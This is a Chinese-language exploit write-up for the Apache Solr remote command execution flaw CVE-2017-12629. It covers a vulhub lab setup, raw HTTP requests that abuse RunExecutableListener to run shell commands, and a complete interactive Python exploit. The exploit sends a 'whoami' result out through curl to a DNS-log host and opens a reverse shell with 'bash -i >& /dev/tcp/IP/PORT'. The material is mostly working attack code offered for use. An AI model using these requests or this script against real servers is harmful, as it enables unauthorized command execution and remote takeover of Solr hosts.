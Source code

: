 # 

# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 漏洞影响

```
Apache Solr < 7.1
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现

先请求url地址获取 core 内容

http://xxx.xxx.xxx.xxx:8983/solr/admin/cores



![image-20220209115009776](./images/202202091150843.png)

通过查看代码，能够触发命令执行的事件有两个：postCommit 和 newSearcher

![image-20220209115027117](./images/202202091150170.png)

第一个请求包用于载入缓存中

exe : ping  执行的命令

dir: 命令存在的目录位置

args:命令参数

如下请求包执行的是 /bin/ping 1.1.1.1

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![image-20220209115046585](./images/202202091150685.png)

第二个请求包用于更新缓存并执行命令

```json
POST /solr/demo/update HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

[{"id":"test"}]
```

![image-20220209115108238](./images/202202091151324.png)

注意 第一个请求包的这个位置 "name":"newlistener-1",listerer的名字需要替换

例如第一次 为 newlistener-1 ，第二次则需要改为 newlistener-2

注意 第二个请求包的这个位置  [{"id":"test"}]，同第一个请求包的name，每执行一次就需要更换 id ,例如第一次 为 test ，第二次则需要改为 tset-2

注意 Content-Type: application/json 需要添加

不更改执行发生报错示例

![image-20220209115145295](./images/202202091151387.png)

进入docker容器查看发现命令已经执行

![image-20220209115203844](./images/202202091152887.png)

使用 newSearcher可以直接加载入缓存执行命令

请求包如下

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

注意点同上，也需要每次执行更改 "name":"newlistener-2" 的参数

![image-20220209115226709](./images/202202091152811.png)



成功执行了创建文件的命令

![image-20220209115246047](./images/202202091152090.png)

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url, n):
    exp_url = target_url + "/solr/" + core_name + "/config"
    dnslog_url = "`whoami`." + dnslog_url
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
    {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"curl","dir":"/usr/bin/","args":["%s"]}}
    """ % (n, dnslog_url)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行，请查看dnslog \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name, n, ip, port):
    exp_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    payload_cmd = """
        {"add-listener":{"event":"postCommit","name":"newSearche-%s","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c","bash -i >& /dev/tcp/%s/%s 0>&1"]}}
        """ % (n, ip, port)

    response = requests.request("POST", url=exp_url, headers=headers, data=payload_cmd, timeout=30)
    if "add-listener" in response.text:
        print("\033[32m[o] 成功执行 \033[0m")
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)

    while True:
        n = random.randint(1, 9999)
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_3(target_url, core_name, n, IP, PORT)
        elif cmd == "dnslog":
            dnslog_url = str(input('\033[35m请输入你的dnslog地址：\033[0m'))
            POC_2(target_url, core_name, dnslog_url, n)
```

![image-20220209115514982](./images/202202091155228.png)



![image-20220209115536548](./images/202202091155591.png)

如果shell或dnslog无反应，可以选择更改一下POC的部分参数执行需要的代码

## 参考文章

[Apache Solr远程代码执行漏洞（CVE-2017-12629）从利用到入侵检测](https://www.freebuf.com/sectool/159970.html)

[cve-2017-12629 apache solr xxe & rce 漏洞分析](https://blog.csdn.net/whatday/article/details/106974271?utm_medium=distribute.pc_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242)


